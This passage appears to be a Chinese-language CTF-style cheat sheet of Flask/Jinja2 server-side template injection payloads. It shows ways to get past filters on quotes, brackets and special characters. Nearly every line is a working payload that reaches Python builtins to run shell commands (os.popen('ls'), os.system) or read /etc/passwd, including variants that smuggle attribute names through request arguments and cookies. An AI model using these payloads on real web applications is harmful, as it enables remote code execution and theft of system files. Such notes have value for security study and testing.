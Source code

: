#### 过滤了引号

*   利用将需要的变量放在请求中,然后通过\[\],或者通过attr,`__getattribute__`获得

```
// url?a=eval
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.[request.args.a]('__import__("os").popen("ls").read()')

// Cookie: aa=__class__;bb=__mro__;cc=__subclasses__
{{((request|attr(request.cookies.get('aa'))|attr(request.cookies.get('bb'))|list).pop(-1))|attr(request.cookies.get('cc'))()}}
```

*   如果request被ban,可以考虑通过`{{(config.__str__()[2])+(config.__str__()[3])}}`拼接需要的字符
    
*   查出chr函数,利用set赋值,然后使用
    

```
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read() }}
```

*   利用内置过滤器拼接出,'%c',再利用''%语法得到任意字符

```
get %
找到特殊字符<,url编码,得到%
{%set pc = g|lower|list|first|urlencode|first%}


get 'c'

{%set c=dict(c=1).keys()|reverse|first%}

字符串拼接

{%set udl=dict(a=pc,c=c).values()|join %}

可以得到任意字符了

get _
{%set udl2=udl%(95)%}{{udl}}
```

### 特殊字符过滤

其他奇奇怪怪的过滤,善用Flask/Jinja2的文档,用内置过滤器,函数,变量,魔术方法等绕过

#### 过滤\[

```
#getitem、pop
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()
''.__class__.__mro__.__getitem__(2).__subclasses__().__getitem__(59).__init__.__globals__.__getitem__('__builtins__').__getitem__('__import__')('os').system('calc')
```
